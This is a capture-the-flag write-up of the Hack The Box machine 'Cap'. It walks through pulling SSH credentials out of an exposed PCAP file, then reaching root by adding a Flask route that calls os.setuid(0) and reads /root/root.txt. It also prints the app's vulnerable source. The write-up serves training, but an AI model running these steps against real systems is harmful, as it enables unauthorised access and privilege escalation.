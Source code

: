 ```yaml
---
title: "📦 HTB - Cap"
date: 2021-07-28 16:00:00
tags: ["htb", "writeup"]
categories: ["HTB"]
author: "0xNinja"
resources:
- name: "featured-image"
  src: "featured-image.png"
---
```


> Simple easy box, perfect to warmup before the FIC 2021 and get more confidence in 1337 h4ck1n9

## TL;DR

Find PCAP file on server, get SSH credentials, execute code as root with Python.

## Footholds

I did not even use `nmap` here, as we had a web server serving on port `tcp:80`. This website looked like this:

![Cap index](index.png)

It seems to be a security dashboard for a server, we don't have any info about that. We have multiple endpoints on the server :

* `/capture`: redirects to `/data/{id}` after loading
* `/data/{id}`: we can download `{id}.pcap` by clicking a button
* `/ip`: get a `netstat` output

What can we do with that?

## User

I got to download the file `11.pcap`, and got nothing in it. I recognized that all my interactions with the server were logged in this PCAP, which is odd, I tought the server was serving a particular PCAP.

After playing again with the `/capture` endpoint, I figured out that the `/data/{id}` correspond to a specific user or IP. So I checked `/data/0` and got the following data:

![0.pcap](pcap.png)

And guess what? Yes we can see credentials in cleartext here:

![FTP connection in 0.pcap](ftp.png)

So we can SSH to the machine with those.

## Root

### Source code

The server was running in `/var/www/html/app.py` which is a Flask server. the user `nathan` have `rw` rights on it so I checked the source code:

```py
import os
from flask import *
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
import tempfile
import dpkt
from werkzeug.utils import append_slash_redirect

# [...]

app = Flask(__name__)

@app.route("/")
def index():
        return render_template("index.html")

@app.route("/capture")
@limiter.limit("10 per minute")
def capture():
        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)

        return redirect("/data/" + str(pcapid))

@app.route("/ip")
def ifconfig():
	d = os.popen("ifconfig").read().strip()
	print(d)
	return render_template("index.html", rawtext=d)

@app.route("/data/<id>")
def data_id(id):
        try:
                id = int(id)
        except:
                return redirect("/")
        try:
                data = process_pcap(os.path.join(app.root_path, "upload", str(id) + ".pcap"))
                path = str(id) + ".pcap"
                return render_template("index.html", data=data, path=path)
        except Exception as e:
                print(e)
                return redirect("/")

# [...]

if __name__ == "__main__":
        app.run("0.0.0.0", 80, debug=True)
```

I removed some code for readability but you get the idea. The important stuff is the `os.setuid(0)` part. If you want the complete code, [check it here](app.py).

### Exploit

As you can expect here we can execute code as root with the `os.setuid(0)` line. So I just edited this `app.py` file and added one route:

```py
@app.route("/test")
def test():
    os.setuid(0)
    data = os.popen("cat /root/root.txt").read()
    return render_template("index.html", data=data)

# opened a new port on the machine
if __name__ == "__main__":
    app.run("0.0.0.0", 65000, debug=True)
```

Then I started the server in the SSH connection: `nathan@cap: python3 app.py`, and connected on the server on my local machine with `firefox http://cap.htb:65000/test`.

![RCE as root](root.png)

And voilà.

![Cap rooted](rooted.png)

